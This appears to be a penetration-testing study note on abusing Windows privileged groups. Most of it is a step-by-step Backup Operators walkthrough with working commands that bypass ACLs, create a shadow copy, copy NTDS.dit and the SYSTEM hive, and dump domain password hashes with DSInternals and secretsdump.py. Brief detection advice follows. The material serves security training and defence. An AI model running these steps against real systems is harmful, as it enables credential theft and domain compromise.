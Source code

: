 ### **Overview**

- Windows servers and Domain Controllers include _predefined groups_ with _special privileges_
- Membership can _grant elevated access_, allow _specific tasks_, or lead to _privilege escalation_
- Common misuse:
    - Vendor/service accounts added for functionality
    - Users mistakenly added or left from testing

- Key groups for assessment focus:
    - _Backup Operators_
    - _Event Log Readers_
    - _DnsAdmins_
    - _Hyper-V Administrators_
    - _Print Operators_
    - _Server Operators_

---

### **Group: Backup Operators**

**Capabilities**:

- Grants:
    - _SeBackupPrivilege_: read any file regardless of ACLs
    - _SeRestorePrivilege_: restore files/modify ACLs

- Can _log on locally_ to Domain Controllers
- Allows _copying protected files_, including:
    - `NTDS.dit` (AD database with password hashes)
    - Registry hives: `SAM`, `SYSTEM`

**Abuse Steps**:

1. **Check/Enable SeBackupPrivilege**
```powershell
whoami /priv
Set-SeBackupPrivilege
```

2. **Copy Protected Files**
	- Use `Copy-FileSeBackupPrivilege`:
```powershell
Copy-FileSeBackupPrivilege "source_path" "destination_path"
```
- Or use `robocopy` in backup mode:
```cmd
robocopy /B "source_dir" "dest_dir" target_file
```

3. **Example: Bypass ACL**
	- Target: `C:\Confidential\2021 Contract.txt`
```powershell
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

4. **Create Shadow Copy (if file locked)**
```powershell
diskshadow.exe
DISKSHADOW> set context clientaccessible
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
```

5. **Copy from Shadow Copy**
```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit .\ntds.dit
```

6. **Extract Hashes**
	- Using _DSInternals_:
```powershell
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName ... -DBPath .\ntds.dit -BootKey $key
```
- Using _secretsdump.py_:
```bash
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

---

### **Security Implications**

- Can _bypass ACLs_ entirely
- Access _sensitive files_, even without explicit permission
- Use for:
    - Dumping _NTLM hashes_
    - _Offline cracking_
    - _Pass-the-hash_ attacks

- Explicit _DENY ACE_ overrides privileges

---

### **Detection & Recommendations**

- Regularly audit group membership
- Avoid overusing Backup Operators for non-backup roles
- Monitor for shadow copy and robocopy /B usage
